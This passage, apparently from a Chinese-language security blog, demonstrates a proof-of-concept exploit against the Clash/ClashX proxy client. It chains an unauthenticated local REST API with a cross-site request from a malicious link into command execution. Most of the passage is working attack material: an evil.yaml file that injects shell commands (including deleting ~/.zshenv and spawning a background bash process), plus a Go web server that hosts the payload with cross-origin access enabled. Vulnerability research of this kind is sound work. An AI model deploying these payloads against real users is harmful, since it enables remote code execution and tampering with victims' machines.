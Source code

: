 ```html
```

在公网起一个Web服务，同时允许跨域，对外提供如上index.html和evil.yaml恶意文件，evil.yaml文件中包含了攻击者期望执行的命令。注意将如上html中的`{{yourevilser}}`换成你自己的IP或者域名。

```bash
$ cat evil.yaml
open /System/Applications/Calculator.app;rm -f ~/.zshenv;bash -c 'nohup sleep 10 2>&1 > /dev/null &' <<!:
  aaaaa: 11111

proxies:
  - {name: vP, server: n04.a00x.party, port: 18000, type: ssr, cipher: aes-256-cfb, password: AFX92CS, protocol: auth_aes128_sha1, obfs: http_simple, protocol-param: 232991:xSnSFv, obfs-param: download.windowsupdate.com, udp: true}

aaaaa: 2222

$ cat main.go
package main

import (
	"github.com/gin-contrib/cors"
	"github.com/gin-gonic/gin"
)

func main() {
	r := gin.Default()
	r.Use(cors.Default())
	r.StaticFile("/", "./index.html")
	r.StaticFile("/evil.yaml", "./evil.yaml")
	r.Run(":9999")
}

$ go run main.go
[GIN-debug] GET    /                         --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] HEAD   /                         --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] GET    /evil.yaml                --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] HEAD   /evil.yaml                --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] Listening and serving HTTP on :9999
```

限于文章篇幅，针对使用CLI Clash的Linux用户的攻击就不演示了，只做针对macOS用户使用ClashX是如何遭受到攻击的演示。

当macOS用户在日常使用ClashX时，此时打开一条来自攻击者发过来的恶意链接时，浏览器就会自动去请求Clash的RESTful API，如下图所示，使用最新版Firefox和Safari浏览器都成功对本地Clash发出了请求，Firefox和Safari浏览器比较宽松。

[![](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/firefox.png)
](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/firefox.png)
